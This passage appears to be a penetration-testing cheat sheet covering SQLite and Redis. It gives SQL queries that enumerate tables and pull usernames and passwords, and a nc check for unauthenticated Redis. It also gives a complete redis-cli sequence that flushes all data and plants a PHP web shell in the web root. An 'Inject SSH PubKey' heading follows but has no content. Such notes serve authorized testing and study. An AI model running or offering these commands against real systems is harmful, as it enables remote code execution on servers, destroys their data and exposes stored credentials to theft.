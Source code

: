 

### SQLite

```
SELECT tbl_name FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='secret_database';
SELECT username,password FROM secret_database;
```



### Redis


#### Preparation

Install **[1]** or **[2]**:

```
root@kali:$ mkdir ~/tools/redis-cli-go && cd ~/tools/redis-cli-go
root@kali:$ wget [1] -O redis-cli-go && chmod +x redis-cli-go
root@kali:$ ln -s ~/tools/redis-cli-go/redis-cli-go /usr/local/bin/redis-cli-go && cd -
```

1. [github.com/holys/redis-cli/releases](https://github.com/holys/redis-cli/releases)
2. [github.com/antirez/redis](https://github.com/antirez/redis)

Check if vulnarable:

```
root@kali:$ nc 127.0.0.1 6379
Escape character is '^]'.
echo "Hey, no AUTH required!"
$21
Hey, no AUTH required!
quit
+OK
Connection closed by foreign host.
```


#### Web Shell

```
root@kali:$ redis-cli -h 127.0.0.1 flushall
root@kali:$ redis-cli -h 127.0.0.1 set pwn '<?php system($_REQUEST['cmd']); ?>'
root@kali:$ redis-cli -h 127.0.0.1 config set dbfilename shell.php
root@kali:$ redis-cli -h 127.0.0.1 config set dir /var/www/html/
root@kali:$ redis-cli -h 127.0.0.1 save
```

* [book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)


#### Inject SSH PubKey


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)